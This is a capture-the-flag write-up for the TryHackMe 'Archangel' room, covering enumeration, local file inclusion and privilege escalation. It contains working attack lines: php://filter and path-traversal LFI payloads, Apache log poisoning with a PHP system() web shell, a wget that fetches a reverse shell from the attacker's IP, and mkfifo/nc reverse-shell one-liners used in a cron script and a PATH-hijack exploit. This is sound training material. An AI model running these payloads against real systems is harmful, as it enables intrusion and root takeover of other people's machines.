


# [Archangel](https://tryhackme.com/room/archangel) TryHackMe Writeup


This room involves LFI fo initial access , horizontal privilege escalation , then unsecure PATH variable exploitation .


## __First Stage : Enumeration__


Let's fire up nmap .

```
# Nmap 7.91 scan initiated Fri Feb  5 19:23:46 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.100.228
Warning: 10.10.100.228 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.100.228
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-02-05 19:23:47 IST for 780s
Not shown: 65454 closed ports, 79 filtered ports
Reason: 65454 conn-refused and 79 no-responses
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPrwb4vLZ/CJqefgxZMUh3zsubjXMLrKYpP8Oy5jNSRaZynNICWMQNfcuLZ2GZbR84iEQJrNqCFcbsgD+4OPyy0TXV1biJExck3OlriDBn3g9trxh6qcHTBKoUMM3CnEJtuaZ1ZPmmebbRGyrG03jzIow+w2updsJ3C0nkUxdSQ7FaNxwYOZ5S3X5XdLw2RXu/o130fs6qmFYYTm2qii6Ilf5EkyffeYRc8SbPpZKoEpT7TQ08VYEICier9ND408kGERHinsVtBDkaCec3XmWXkFsOJUdW4BYVhrD3M8JBvL1kPmReOnx8Q7JX2JpGDenXNOjEBS3BIX2vjj17Qo3V
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhhd/akQ2OLPa2ogtMy7V/GEqDyDz8IZZQ+266QEHke6vdC9papydu1wlbdtMVdOPx1S6zxA4CzyrcIwDQSiCg=
|   256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBE3FV9PrmRlGbT2XSUjGvDjlWoA/7nPoHjcCXLer12O
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 19:36:48 2021 -- 1 IP address (1 host up) scanned in 781.74 seconds
```

So open ports are :

* 22
* 80

Hence I visited the port 80.


Hence we found a potential vhost __mafialive.thm__.

Let's add it in **/etc/hosts**.


Then I  visited it . We can find the first flag.


I ran gobuster.

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://mafialive.thm/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/05 20:08:17 Starting gobuster
===============================================================
/index.html (Status: 200)
/test.php (Status: 200)
/robots.txt (Status: 200)
```
Hence we get **test.php** so I visited .


So if we click the button we get 


So the parameter **view** gives a potential __LFI__ vuln.


So I opened burp and captured the request.


Hence I started trying every filter , only filter that worked was 

> php://filter/convert.base64-encode/resource=


So we get the file in base64 format. Let's try for test.php

> php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php


So if we decode it we get.

```php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{<redacted>}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```


Hence we get the second flag .


## __Second Stage : Initial access as www-data__

Now we can see that the test.php is filtering "../.."

Hence we can use filter evasion techniques to bypass.

According to the hint given we have to poison apache log.

Let's do it.


> http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log

So we can see the log file .


So we have to poisin the log by manupilating user-agent .

> \<?php system($_GET['shell']); ?>


So next we can use this to download php reverse-shell file 

> mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&shell=wget http://10.8.74.96:8000/shell.php


We can check it 




Next we have to execute 

> mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&shell=php shell.php


## __Third Stage : www-data to archangel__

So after I linpeas I got this.


So we can edit this file , let's add reverse shell into this .

> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<your vpn-ip> 4242 >/tmp/f " >> helloworld.sh

Hence we get a shell


## __Fourth Stage : archangel to root__


There is a file called backup which was interesting.


So it is a elf file , I transfered it to my local machine and used ghidra .





We can see it is calling binary cp without proper path , we can use this to our advantage.


So the exploit is :

```bash
touch /tmp/cp
chmod +x /tmp/cp
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <vpn-ip> 4444 >/tmp/f" >> /tmp/cp
export PATH=/tmp:$PATH
./backup
```


Hence we get a shell.


